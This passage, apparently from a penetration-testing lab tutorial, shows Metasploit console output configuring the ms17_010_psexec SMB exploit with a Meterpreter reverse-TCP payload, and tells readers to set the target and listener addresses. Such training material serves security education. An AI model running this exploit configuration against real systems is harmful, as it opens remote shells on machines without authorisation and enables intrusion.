 ```shell
                                                                ank for auto)
   NAMED_PIPES           /usr/share/metasploit-frame  yes       List of named pipes to check
                         work/data/wordlists/named_p
                         ipes.txt
   RHOSTS                                             yes       The target host(s), range CIDR identifier, or h
                                                                osts file with syntax 'file:<path>'
   RPORT                 445                          yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                no        Service description to to be used on target for
                                                                 pretty listing
   SERVICE_DISPLAY_NAME                               no        The service display name
   SERVICE_NAME                                       no        The service name
   SHARE                 ADMIN$                       yes       The share to connect to, can be an admin share
                                                                (ADMIN$,C$,...) or a normal read/write folder s
                                                                hare
   SMBDomain             .                            no        The Windows domain to use for authentication
   SMBPass                                            no        The password for the specified username
   SMBUser                                            no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.86.48    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```

Be sure to set your payload options correctly before running the exploit. Any options that have `Required` set to yes will be a necessary space to fill. In this instance, we need to ensure that our `RHOSTS, LHOST, and LPORT` fields are correctly set.

```shell
msf6 exploit(windows/smb/ms17_010_psexec) > show options

Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting              Required  Description
   ----                  ---------------              --------  -----------
   DBGTRACE              false                        yes       Show extra debug trace info
   LEAKATTEMPTS          99                           yes       How many times to try to leak transaction
   NAMEDPIPE                                          no        A named pipe that can be connected to (leave bl
                                                                ank for auto)
   NAMED_PIPES           /usr/share/metasploit-frame  yes       List of named pipes to check
                         work/data/wordlists/named_p
                         ipes.txt
   RHOSTS                10.129.201.97                yes       The target host(s), range CIDR identifier, or h
                                                                osts file with syntax 'file:<path>'
   RPORT                 445                          yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                no        Service description to to be used on target for
                                                                 pretty listing
   SERVICE_DISPLAY_NAME                               no        The service display name
   SERVICE_NAME                                       no        The service name
```